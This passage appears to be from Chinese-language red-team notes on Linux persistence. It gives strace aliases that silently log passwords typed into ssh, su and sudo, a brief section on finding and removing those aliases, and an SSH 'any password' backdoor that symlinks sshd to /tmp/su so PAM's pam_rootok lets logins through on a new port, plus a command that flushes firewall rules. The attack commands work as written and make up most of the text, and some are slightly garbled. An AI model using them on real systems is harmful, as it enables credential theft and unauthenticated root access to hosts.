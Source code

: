 

![img](https://klionsec.github.io//img/ssh%20%20ssh%20res%20pass.png)

除了ssh,你也可以尝试跟踪su,sudo,ssh

```bash
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -s 2048 ssh'
alias ssh='strace -o /tmp/.sshOutput_`date+%Y%m%d%H%M%S`.log -e read,write,connect -s 2048 ssh'
alias su="strace -o /tmp/.su-`date '+%d%h%m%s'`.log su"
alias sudo="strace -o /tmp/.sudo-`date '+%d%h%m%s'`.log sudo"
# source ~/.bashrc 或者 source ~/.zshrc
```

**检测清除**

```bash
ps -ef|grep starce|grep -v grep #进程中查找是否有strace监测
alias # 查看是否有异常alias
unalias ssh # kill掉对应进程，取消alias即可
```

### 5. SSH任意密码后门

> **原理** ssh登陆默认使用了PAM进行认证，而在root环境下，部分命令比如su chfu等在执行时无需使用密码。因为这些命令在PAM认证时使用了pam_rootok.so进行认证：
>
> 1：ssh默认调用了PAM进行身份验证
> 2：PAM是linux系统中的一个独立的API(应用程序接口)，他提供了各种验证模式模块
> 3：PAM的认证文件系统都统一存放在/etc/pam.d目录中
> 4：SSH的认证文件应该是/etc/pam.d/sshd，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登陆
> 5：通过软连接的方式，PAM认证实质上是通过软连接的文件名/tmp/su，在/etc/pam.d目录下找到对应的PAM认证文件
> 6：SSH的认证文件被改为了/etc/pam.d/su
>
> ![image-20200329094356922](/Users/dawson0x00/Library/Application Support/typora-user-images/image-20200329094356922.png)
>
> Pam_rootok.so:主要作用为使uid=0的账户在认证时直接通过
>
> PAM在认证时，以命令名字在/etc/pam.d/目录下查找PAM配置文件
>
> 部分配置文件中，对于认证采用了pam_rootok.so，并使用了sufficient控制标记：
>
> ```bash
> auth            sufficient pam_rootok.so
> ```
>
> 则可将sshd链接到使用了rootok.so进行认证的命令上，并新开一个端口

测试

```bash
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=65534
ln -sf /usr/sbin/sshd /tmp/chsu;/tmp/chsh -oPort=32090
iptables -F # 目前测试的不需要这条命令也可以；清空规则链 需确定此命令是否必须执行
```
